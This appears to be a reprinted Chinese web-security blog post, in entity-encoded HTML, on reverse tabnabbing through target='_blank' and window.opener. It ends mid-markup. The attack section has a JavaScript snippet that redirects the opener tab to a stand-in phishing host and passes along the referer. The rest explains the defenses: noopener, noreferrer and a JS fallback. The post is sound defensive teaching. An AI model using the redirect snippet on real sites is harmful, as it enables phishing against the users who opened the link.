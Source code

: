```yaml
---
title: 你不曾察觉的隐患：危险的 target="_blank" 与 “opener”
reprint: true
categories: reprint
abbrlink: 3aa5de53
date: 2018-11-09 02:30:05
---
```


{{% raw %}}
<blockquote>&#x5728;&#x7F51;&#x9875;&#x4E2D;&#x4F7F;&#x7528;&#x94FE;&#x63A5;&#x65F6;&#xFF0C;&#x5982;&#x679C;&#x60F3;&#x8981;&#x8BA9;&#x6D4F;&#x89C8;&#x5668;&#x81EA;&#x52A8;&#x5728;&#x65B0;&#x7684;&#x6807;&#x7B7E;&#x9875;&#x6253;&#x5F00;&#x6307;&#x5B9A;&#x7684;&#x5730;&#x5740;&#xFF0C;&#x901A;&#x5E38;&#x7684;&#x505A;&#x6CD5;&#x5C31;&#x662F;&#x5728; <code>a</code> &#x6807;&#x7B7E;&#x4E0A;&#x6DFB;&#x52A0; <code>target&#x7B49;&#x4E8E;&quot;_blank&quot;</code> &#x5C5E;&#x6027;&#x3002;<br>&#x7136;&#x800C;&#xFF0C;&#x5C31;&#x662F;&#x8FD9;&#x4E2A;&#x5C5E;&#x6027;&#xFF0C;&#x4E3A;&#x9493;&#x9C7C;&#x653B;&#x51FB;&#x8005;&#x5E26;&#x6765;&#x4E86;&#x53EF;&#x4E58;&#x4E4B;&#x673A;&#x3002;</blockquote><p><span class="img-wrap"><img data-src="/img/bVbg33P?w=1200&amp;h=600" src="https://static.alili.tech/img/bVbg33P?w=1200&amp;h=600" alt="" title="" style="cursor:pointer;display:inline"></span></p><h1 id="articleHeader0">&#x8D77;&#x6E90;</h1><h2 id="articleHeader1"><code>parent</code> &#x4E0E; <code>opener</code></h2><p>&#x5728;&#x8BF4; <code>opener</code> &#x4E4B;&#x524D;&#xFF0C;&#x53EF;&#x4EE5;&#x5148;&#x804A;&#x804A; <code>&lt;iframe&gt;</code> &#x4E2D;&#x7684; <code>parent</code>&#x3002;</p><p>&#x6211;&#x4EEC;&#x77E5;&#x9053;&#xFF0C;&#x5728; <code>&lt;iframe&gt;</code> &#x4E2D;&#x63D0;&#x4F9B;&#x4E86;&#x4E00;&#x4E2A;&#x7528;&#x4E8E;&#x7236;&#x5B50;&#x9875;&#x9762;&#x4EA4;&#x4E92;&#x7684;&#x5BF9;&#x8C61;&#xFF0C;&#x53EB;&#x505A; <code>window.parent</code>&#xFF0C;&#x6211;&#x4EEC;&#x53EF;&#x4EE5;&#x901A;&#x8FC7; <code>window.parent</code> &#x5BF9;&#x8C61;&#x6765;&#x4ECE;&#x6846;&#x67B6;&#x4E2D;&#x7684;&#x9875;&#x9762;&#x8BBF;&#x95EE;&#x7236;&#x7EA7;&#x9875;&#x9762;&#x7684; <code>window</code>&#x3002;</p><p><code>opener</code> &#x4E0E; <code>parent</code> &#x4E00;&#x6837;&#xFF0C;&#x53EA;&#x4E0D;&#x8FC7;&#x662F;&#x7528;&#x4E8E; <code>&lt;a target=&quot;_blank&quot;&gt;</code> &#x5728;&#x65B0;&#x6807;&#x7B7E;&#x9875;&#x6253;&#x5F00;&#x7684;&#x9875;&#x9762;&#x7684;&#x3002;&#x901A;&#x8FC7; <code>&lt;a target=&quot;_blank&quot;&gt;</code> &#x6253;&#x5F00;&#x7684;&#x9875;&#x9762;&#xFF0C;&#x53EF;&#x4EE5;&#x76F4;&#x63A5;&#x4F7F;&#x7528; <code>window.opener</code> &#x6765;&#x8BBF;&#x95EE;&#x6765;&#x6E90;&#x9875;&#x9762;&#x7684; <code>window</code> &#x5BF9;&#x8C61;&#x3002;</p><h2 id="articleHeader2">&#x540C;&#x57DF;&#x4E0E;&#x8DE8;&#x57DF;</h2><p>&#x6D4F;&#x89C8;&#x5668;&#x63D0;&#x4F9B;&#x4E86;&#x5B8C;&#x6574;&#x7684;&#x8DE8;&#x57DF;&#x4FDD;&#x62A4;&#xFF0C;&#x5728;&#x57DF;&#x540D;&#x76F8;&#x540C;&#x65F6;&#xFF0C;<code>parent</code> &#x5BF9;&#x8C61;&#x548C; <code>opener</code> &#x5BF9;&#x8C61;&#x5B9E;&#x9645;&#x4E0A;&#x5C31;&#x76F4;&#x63A5;&#x662F;&#x4E0A;&#x4E00;&#x7EA7;&#x7684; <code>window</code> &#x5BF9;&#x8C61;&#xFF1B;&#x800C;&#x5F53;&#x57DF;&#x540D;&#x4E0D;&#x540C;&#x65F6;&#xFF0C;<code>parent</code> &#x548C; <code>opener</code> &#x5219;&#x662F;&#x7ECF;&#x8FC7;&#x5305;&#x88C5;&#x7684;&#x4E00;&#x4E2A; <code>global</code> &#x5BF9;&#x8C61;&#x3002;&#x8FD9;&#x4E2A; <code>global</code> &#x5BF9;&#x8C61;&#x4EC5;&#x63D0;&#x4F9B;&#x975E;&#x5E38;&#x6709;&#x9650;&#x7684;&#x5C5E;&#x6027;&#x8BBF;&#x95EE;&#xFF0C;&#x5E76;&#x4E14;&#x5728;&#x8FD9;&#x4EC5;&#x6709;&#x7684;&#x51E0;&#x4E2A;&#x5C5E;&#x6027;&#x4E2D;&#xFF0C;&#x5927;&#x90E8;&#x5206;&#x4E5F;&#x90FD;&#x662F;&#x4E0D;&#x5141;&#x8BB8;&#x8BBF;&#x95EE;&#x7684;&#xFF08;&#x8BBF;&#x95EE;&#x4F1A;&#x76F4;&#x63A5;&#x629B;&#x51FA; <code>DOMException</code>&#xFF09;&#x3002;</p><p><span class="img-wrap"><img data-src="/img/bVbg33S?w=729&amp;h=42" src="https://static.alili.tech/img/bVbg33S?w=729&amp;h=42" alt="" title="" style="cursor:pointer;display:inline"></span></p><p><span class="img-wrap"><img data-src="/img/bVbg33T?w=729&amp;h=42" src="https://static.alili.tech/img/bVbg33T?w=729&amp;h=42" alt="" title="" style="cursor:pointer;display:inline"></span></p><p>&#x5728; <code>&lt;iframe&gt;</code> &#x4E2D;&#xFF0C;&#x63D0;&#x4F9B;&#x4E86;&#x4E00;&#x4E2A; <code>sandbox</code> &#x5C5E;&#x6027;&#x7528;&#x4E8E;&#x63A7;&#x5236;&#x6846;&#x67B6;&#x4E2D;&#x7684;&#x9875;&#x9762;&#x7684;&#x6743;&#x9650;&#xFF0C;&#x56E0;&#x6B64;&#x5373;&#x4F7F;&#x662F;&#x540C;&#x57DF;&#xFF0C;&#x4E5F;&#x53EF;&#x4EE5;&#x63A7;&#x5236; <code>&lt;iframe&gt;</code> &#x7684;&#x5B89;&#x5168;&#x6027;&#x3002;</p><h1 id="articleHeader3">&#x5229;&#x7528;</h1><p>&#x5982;&#x679C;&#xFF0C;&#x4F60;&#x7684;&#x7F51;&#x7AD9;&#x4E0A;&#x6709;&#x4E00;&#x4E2A;&#x94FE;&#x63A5;&#xFF0C;&#x4F7F;&#x7528;&#x4E86; <code>target=&quot;_blank&quot;</code>&#xFF0C;&#x90A3;&#x4E48;&#x4E00;&#x65E6;&#x7528;&#x6237;&#x70B9;&#x51FB;&#x8FD9;&#x4E2A;&#x94FE;&#x63A5;&#x5E76;&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x65B0;&#x7684;&#x6807;&#x7B7E;&#xFF0C;&#x65B0;&#x6807;&#x7B7E;&#x4E2D;&#x7684;&#x9875;&#x9762;&#x5982;&#x679C;&#x5B58;&#x5728;&#x6076;&#x610F;&#x4EE3;&#x7801;&#xFF0C;&#x5C31;&#x53EF;&#x4EE5;&#x5C06;&#x4F60;&#x7684;&#x7F51;&#x7AD9;&#x76F4;&#x63A5;&#x5BFC;&#x822A;&#x5230;&#x4E00;&#x4E2A;&#x865A;&#x5047;&#x7F51;&#x7AD9;&#x3002;&#x6B64;&#x65F6;&#xFF0C;&#x5982;&#x679C;&#x7528;&#x6237;&#x56DE;&#x5230;&#x4F60;&#x7684;&#x6807;&#x7B7E;&#x9875;&#xFF0C;&#x770B;&#x5230;&#x7684;&#x5C31;&#x662F;&#x88AB;&#x66FF;&#x6362;&#x8FC7;&#x7684;&#x9875;&#x9762;&#x4E86;&#x3002;</p><h2 id="articleHeader4">&#x8BE6;&#x7EC6;&#x6B65;&#x9AA4;</h2><ol><li><p>&#x5728;&#x4F60;&#x7684;&#x7F51;&#x7AD9; <code>https://example.com</code> &#x4E0A;&#x5B58;&#x5728;&#x4E00;&#x4E2A;&#x94FE;&#x63A5;&#xFF1A;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="&lt;a href=&quot;https://an.evil.site&quot; target=&quot;_blank&quot;&gt;&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;&lt;/a&gt;" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="xml hljs"><code class="html" style="word-break:break-word;white-space:initial"><span class="hljs-tag">&lt;<span class="hljs-name">a</span> <span class="hljs-attr">href</span>=<span class="hljs-string">&quot;https://an.evil.site&quot;</span> <span class="hljs-attr">target</span>=<span class="hljs-string">&quot;_blank&quot;</span>&gt;</span>&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;<span class="hljs-tag">&lt;/<span class="hljs-name">a</span>&gt;</span></code></pre></li><li><p>&#x7528;&#x6237;&#x70B9;&#x51FB;&#x4E86;&#x8FD9;&#x4E2A;&#x94FE;&#x63A5;&#xFF0C;&#x5728;&#x65B0;&#x7684;&#x6807;&#x7B7E;&#x9875;&#x6253;&#x5F00;&#x4E86;&#x8FD9;&#x4E2A;&#x7F51;&#x7AD9;&#x3002;&#x8FD9;&#x4E2A;&#x7F51;&#x7AD9;&#x53EF;&#x4EE5;&#x901A;&#x8FC7; HTTP Header &#x4E2D;&#x7684; <code>Referer</code> &#x5C5E;&#x6027;&#x6765;&#x5224;&#x65AD;&#x7528;&#x6237;&#x7684;&#x6765;&#x6E90;&#x3002;</p><p>&#x5E76;&#x4E14;&#xFF0C;&#x8FD9;&#x4E2A;&#x7F51;&#x7AD9;&#x4E0A;&#x5305;&#x542B;&#x7740;&#x7C7B;&#x4F3C;&#x4E8E;&#x8FD9;&#x6837;&#x7684; JavaScript &#x4EE3;&#x7801;&#xFF1A;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="const url = encodeURIComponent(&apos;{{header.referer}}&apos;);
window.opener.location.replace(&apos;https://a.fake.site/?&apos; + url);" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="javascript hljs"><code class="javascript"><span class="hljs-keyword">const</span> url = <span class="hljs-built_in">encodeURIComponent</span>(<span class="hljs-string">&apos;{{header.referer}}&apos;</span>);
<span class="hljs-built_in">window</span>.opener.location.replace(<span class="hljs-string">&apos;https://a.fake.site/?&apos;</span> + url);</code></pre></li><li>&#x6B64;&#x65F6;&#xFF0C;&#x7528;&#x6237;&#x5728;&#x7EE7;&#x7EED;&#x6D4F;&#x89C8;&#x8FD9;&#x4E2A;&#x65B0;&#x7684;&#x6807;&#x7B7E;&#x9875;&#xFF0C;&#x800C;&#x539F;&#x6765;&#x7684;&#x7F51;&#x7AD9;&#x6240;&#x5728;&#x7684;&#x6807;&#x7B7E;&#x9875;&#x6B64;&#x65F6;&#x5DF2;&#x7ECF;&#x88AB;&#x5BFC;&#x822A;&#x5230;&#x4E86; <code>https://a.fake.site/?https%3A%2F%2Fexample.com%2F</code>&#x3002;</li><li>&#x6076;&#x610F;&#x7F51;&#x7AD9; <code>https://a.fake.site</code> &#x6839;&#x636E; Query String &#x6765;&#x4F2A;&#x9020;&#x4E00;&#x4E2A;&#x8DB3;&#x4EE5;&#x6B3A;&#x9A97;&#x7528;&#x6237;&#x7684;&#x9875;&#x9762;&#xFF0C;&#x5E76;&#x5C55;&#x793A;&#x51FA;&#x6765;&#xFF08;&#x671F;&#x95F4;&#x8FD8;&#x53EF;&#x4EE5;&#x505A;&#x4E00;&#x6B21;&#x8DF3;&#x8F6C;&#xFF0C;&#x4F7F;&#x5F97;&#x6D4F;&#x89C8;&#x5668;&#x7684;&#x5730;&#x5740;&#x680F;&#x66F4;&#x5177;&#x6709;&#x8FF7;&#x60D1;&#x6027;&#xFF09;&#x3002;</li><li>&#x7528;&#x6237;&#x5173;&#x95ED; <code>https://an.evil.site</code> &#x7684;&#x6807;&#x7B7E;&#x9875;&#xFF0C;&#x56DE;&#x5230;&#x539F;&#x6765;&#x7684;&#x7F51;&#x7AD9;&#x2026;&#x2026;&#x2026;&#x2026;&#x2026;&#x2026;&#x5DF2;&#x7ECF;&#x56DE;&#x4E0D;&#x53BB;&#x4E86;&#x3002;</li></ol><blockquote>&#x4E0A;&#x9762;&#x7684;&#x653B;&#x51FB;&#x6B65;&#x9AA4;&#x662F;&#x5728;&#x8DE8;&#x57DF;&#x7684;&#x60C5;&#x51B5;&#x4E0B;&#x7684;&#xFF0C;&#x5728;&#x8DE8;&#x57DF;&#x60C5;&#x51B5;&#x4E0B;&#xFF0C;<code>opener</code> &#x5BF9;&#x8C61;&#x548C; <code>parent</code> &#x4E00;&#x6837;&#xFF0C;&#x662F;&#x53D7;&#x5230;&#x9650;&#x5236;&#x7684;&#xFF0C;&#x4EC5;&#x63D0;&#x4F9B;&#x975E;&#x5E38;&#x6709;&#x9650;&#x7684;&#x5C5E;&#x6027;&#x8BBF;&#x95EE;&#xFF0C;&#x5E76;&#x4E14;&#x5728;&#x8FD9;&#x4EC5;&#x6709;&#x7684;&#x51E0;&#x4E2A;&#x5C5E;&#x6027;&#x4E2D;&#xFF0C;&#x5927;&#x90E8;&#x5206;&#x4E5F;&#x90FD;&#x662F;&#x4E0D;&#x5141;&#x8BB8;&#x8BBF;&#x95EE;&#x7684;&#xFF08;&#x8BBF;&#x95EE;&#x4F1A;&#x76F4;&#x63A5;&#x629B;&#x51FA; <code>DOMException</code>&#xFF09;&#x3002;<p>&#x4F46;&#x662F;&#x4E0E; <code>parent</code> &#x4E0D;&#x540C;&#x7684;&#x662F;&#xFF0C;<strong>&#x5728;&#x8DE8;&#x57DF;&#x7684;&#x60C5;&#x51B5;&#x4E0B;&#xFF0C;<code>opener</code> &#x4ECD;&#x7136;&#x53EF;&#x4EE5;&#x8C03;&#x7528; <code>location.replace</code> &#x65B9;&#x6CD5;</strong>&#x800C; <code>parent</code> &#x5219;&#x4E0D;&#x53EF;&#x4EE5;&#x3002;</p><p>&#x5982;&#x679C;&#x662F;&#x5728;&#x540C;&#x57DF;&#x7684;&#x60C5;&#x51B5;&#x4E0B;&#xFF08;&#x6BD4;&#x5982;&#x4E00;&#x4E2A;&#x7F51;&#x7AD9;&#x4E0A;&#x7684;&#x67D0;&#x4E00;&#x4E2A;&#x9875;&#x9762;&#x88AB;&#x690D;&#x5165;&#x4E86;&#x6076;&#x610F;&#x4EE3;&#x7801;&#xFF09;&#xFF0C;&#x5219;&#x60C5;&#x51B5;&#x8981;&#x6BD4;&#x4E0A;&#x9762;&#x4E25;&#x91CD;&#x5F97;&#x591A;&#x3002;</p></blockquote><h1 id="articleHeader5">&#x9632;&#x5FA1;</h1><p><code>&lt;iframe&gt;</code> &#x4E2D;&#x6709; <code>sandbox</code> &#x5C5E;&#x6027;&#xFF0C;&#x800C;&#x94FE;&#x63A5;&#xFF0C;&#x5219;&#x53EF;&#x4EE5;&#x4F7F;&#x7528;&#x4E0B;&#x9762;&#x7684;&#x529E;&#x6CD5;&#xFF1A;</p><h2 id="articleHeader6">1. Referrer Policy &#x548C; noreferrer</h2><p>&#x4E0A;&#x9762;&#x7684;&#x653B;&#x51FB;&#x6B65;&#x9AA4;&#x4E2D;&#xFF0C;&#x7528;&#x5230;&#x4E86; HTTP Header &#x4E2D;&#x7684; <code>Referer</code> &#x5C5E;&#x6027;&#xFF0C;&#x5B9E;&#x9645;&#x4E0A;&#x53EF;&#x4EE5;&#x5728; HTTP &#x7684;&#x54CD;&#x5E94;&#x5934;&#x4E2D;&#x589E;&#x52A0; <code>Referrer Policy</code> &#x5934;&#x6765;&#x4FDD;&#x8BC1;&#x6765;&#x6E90;&#x9690;&#x79C1;&#x5B89;&#x5168;&#x3002;</p><p><code>Referrer Policy</code> &#x9700;&#x8981;&#x4FEE;&#x6539;&#x540E;&#x7AEF;&#x4EE3;&#x7801;&#x6765;&#x5B9E;&#x73B0;&#xFF0C;&#x800C;&#x5728;&#x524D;&#x7AEF;&#xFF0C;&#x4E5F;&#x53EF;&#x4EE5;&#x4F7F;&#x7528; <code>&lt;a&gt;</code> &#x6807;&#x7B7E;&#x7684; <code>rel</code> &#x5C5E;&#x6027;&#x6765;&#x6307;&#x5B9A; <code>rel=&quot;noreferrer&quot;</code> &#x6765;&#x4FDD;&#x8BC1;&#x6765;&#x6E90;&#x9690;&#x79C1;&#x5B89;&#x5168;&#x3002;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="&lt;a href=&quot;https://an.evil.site&quot; target=&quot;_blank&quot; rel=&quot;noreferrer&quot;&gt;&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;&lt;/a&gt;" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="xml hljs"><code class="html" style="word-break:break-word;white-space:initial"><span class="hljs-tag">&lt;<span class="hljs-name">a</span> <span class="hljs-attr">href</span>=<span class="hljs-string">&quot;https://an.evil.site&quot;</span> <span class="hljs-attr">target</span>=<span class="hljs-string">&quot;_blank&quot;</span> <span class="hljs-attr">rel</span>=<span class="hljs-string">&quot;noreferrer&quot;</span>&gt;</span>&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;<span class="hljs-tag">&lt;/<span class="hljs-name">a</span>&gt;</span></code></pre><blockquote>&#x4F46;&#x662F;&#x8981;&#x6CE8;&#x610F;&#x7684;&#x662F;&#xFF1A;&#x5373;&#x4F7F;&#x9650;&#x5236;&#x4E86; <code>referer</code> &#x7684;&#x4F20;&#x9012;&#xFF0C;&#x4ECD;&#x7136;&#x4E0D;&#x80FD;&#x963B;&#x6B62;&#x539F;&#x6807;&#x7B7E;&#x88AB;&#x6076;&#x610F;&#x8DF3;&#x8F6C;&#x3002;</blockquote><h2 id="articleHeader7">2. noopener</h2><p>&#x4E3A;&#x4E86;&#x5B89;&#x5168;&#xFF0C;&#x73B0;&#x4EE3;&#x6D4F;&#x89C8;&#x5668;&#x90FD;&#x652F;&#x6301;&#x5728; <code>&lt;a&gt;</code> &#x6807;&#x7B7E;&#x7684; <code>rel</code> &#x5C5E;&#x6027;&#x4E2D;&#x6307;&#x5B9A; <code>rel=&quot;noopener&quot;</code>&#xFF0C;&#x8FD9;&#x6837;&#xFF0C;&#x5728;&#x6253;&#x5F00;&#x7684;&#x65B0;&#x6807;&#x7B7E;&#x9875;&#x4E2D;&#xFF0C;&#x5C06;&#x65E0;&#x6CD5;&#x518D;&#x4F7F;&#x7528; <code>opener</code> &#x5BF9;&#x8C61;&#x4E86;&#xFF0C;&#x5B83;&#x4E3A;&#x8BBE;&#x7F6E;&#x4E3A;&#x4E86; <code>null</code>&#x3002;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="&lt;a href=&quot;https://an.evil.site&quot; target=&quot;_blank&quot; rel=&quot;noopener&quot;&gt;&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;&lt;/a&gt;" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="xml hljs"><code class="html" style="word-break:break-word;white-space:initial"><span class="hljs-tag">&lt;<span class="hljs-name">a</span> <span class="hljs-attr">href</span>=<span class="hljs-string">&quot;https://an.evil.site&quot;</span> <span class="hljs-attr">target</span>=<span class="hljs-string">&quot;_blank&quot;</span> <span class="hljs-attr">rel</span>=<span class="hljs-string">&quot;noopener&quot;</span>&gt;</span>&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;<span class="hljs-tag">&lt;/<span class="hljs-name">a</span>&gt;</span></code></pre><h2 id="articleHeader8">3. JavaScript</h2><p><code>noopener</code> &#x5C5E;&#x6027;&#x770B;&#x4F3C;&#x662F;&#x89E3;&#x51B3;&#x4E86;&#x6240;&#x6709;&#x95EE;&#x9898;&#xFF0C;&#x4F46;&#x662F;...&#x6D4F;&#x89C8;&#x5668;&#x7684;&#x517C;&#x5BB9;&#x6027;&#x95EE;&#x9898;...</p><p><span class="img-wrap"><img data-src="/img/bVbg33Y?w=1200&amp;h=814" src="https://static.alili.tech/img/bVbg33Y?w=1200&amp;h=814" alt="" title="" style="cursor:pointer;display:inline"></span></p><p>&#x53EF;&#x4EE5;&#x770B;&#x5230;&#xFF0C;&#x73B0;&#x5728;&#x7EDD;&#x5927;&#x591A;&#x6570;&#x6D4F;&#x89C8;&#x5668;&#x90FD;&#x5DF2;&#x7ECF;&#x517C;&#x5BB9;&#x4E86; <code>rel=&quot;noopener&quot;</code> &#x5C5E;&#x6027;&#x4E86;&#x3002;&#x4F46;&#x662F;&#xFF0C;&#x4E3A;&#x4E86;&#x4FDD;&#x62A4;&#x7A0D;&#x65E7;&#x7684;&#x201C;&#x8FD1;&#x4EE3;&#x201D;&#x6D4F;&#x89C8;&#x5668;&#x6216;&#x662F;&#x5F88;&#x65E7;&#x7684;&#x201C;&#x53E4;&#x4EE3;&#x201D;&#x6D4F;&#x89C8;&#x5668;&#x751A;&#x81F3;&#x662F;&#x201C;&#x8FDC;&#x53E4;&#x201D;&#x6D4F;&#x89C8;&#x5668;&#xFF0C;&#x53EA;&#x6709; <code>noopener</code> &#x5C5E;&#x6027;&#x8FD8;&#x662F;&#x8FDC;&#x8FDC;&#x4E0D;&#x591F;&#x7684;&#x3002;</p><p>&#x8FD9;&#x65F6;&#xFF0C;&#x5C31;&#x53EA;&#x80FD;&#x8BF7;&#x51FA;&#x4E0B;&#x9762;&#x8FD9;&#x6BB5;&#x539F;&#x751F; JavaScript &#x6765;&#x5E2E;&#x5FD9;&#x4E86;&#x3002;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="&quot;use strict&quot;;
function openUrl(url) {
  var newTab = window.open();
  newTab.opener = null;
  newTab.location = url;
}" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="hljs javascript"><code><span class="hljs-meta">&quot;use strict&quot;</span>;
<span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">openUrl</span>(<span class="hljs-params">url</span>) </span>{
  <span class="hljs-keyword">var</span> newTab = <span class="hljs-built_in">window</span>.open();
  newTab.opener = <span class="hljs-literal">null</span>;
  newTab.location = url;
}</code></pre><h1 id="articleHeader9">&#x63A8;&#x8350;</h1><p>&#x9996;&#x5148;&#xFF0C;&#x5728;&#x7F51;&#x7AD9;&#x4E2D;&#x7684;&#x94FE;&#x63A5;&#x4E0A;&#xFF0C;&#x5982;&#x679C;&#x4F7F;&#x7528;&#x4E86; <code>target=&quot;_blank&quot;</code>&#xFF0C;&#x5C31;&#x8981;&#x5E26;&#x4E0A; <code>rel=&quot;noopener&quot;</code>&#xFF0C;&#x5E76;&#x4E14;&#x5EFA;&#x8BAE;&#x5E26;&#x4E0A; <code>rel=&quot;noreferrer&quot;</code>&#x3002;&#x7C7B;&#x4F3C;&#x4E8E;&#x8FD9;&#x6837;&#xFF1A;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="&lt;a href=&quot;https://an.evil.site&quot; target=&quot;_blank&quot; rel=&quot;noopener noreferrer&quot;&gt;&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;&lt;/a&gt;" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="xml hljs"><code class="html" style="word-break:break-word;white-space:initial"><span class="hljs-tag">&lt;<span class="hljs-name">a</span> <span class="hljs-attr">href</span>=<span class="hljs-string">&quot;https://an.evil.site&quot;</span> <span class="hljs-attr">target</span>=<span class="hljs-string">&quot;_blank&quot;</span> <span class="hljs-attr">rel</span>=<span class="hljs-string">&quot;noopener noreferrer&quot;</span>&gt;</span>&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;<span class="hljs-tag">&lt;/<span class="hljs-name">a</span>&gt;</span></code></pre><p>&#x5F53;&#x7136;&#xFF0C;&#x5728;&#x8DF3;&#x8F6C;&#x5230;&#x7B2C;&#x4E09;&#x65B9;&#x7F51;&#x7AD9;&#x7684;&#x65F6;&#x5019;&#xFF0C;&#x4E3A;&#x4E86; SEO &#x6743;&#x91CD;&#xFF0C;&#x8FD8;&#x5EFA;&#x8BAE;&#x5E26;&#x4E0A; <code>rel=&quot;nofollow&quot;</code>&#xFF0C;&#x6240;&#x4EE5;&#x6700;&#x7EC8;&#x7C7B;&#x4F3C;&#x4E8E;&#x8FD9;&#x6837;&#xFF1A;</p><div class="widget-codetool" style="display:none"><div class="widget-codetool--inner"><span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x5168;&#x9009;"></span> <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="&lt;a href=&quot;https://an.evil.site&quot; target=&quot;_blank&quot; rel=&quot;noopener noreferrer nofollow&quot;&gt;&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;&lt;/a&gt;" title="" data-original-title="&#x590D;&#x5236;"></span> <span type="button" class="saveToNote code-tool" 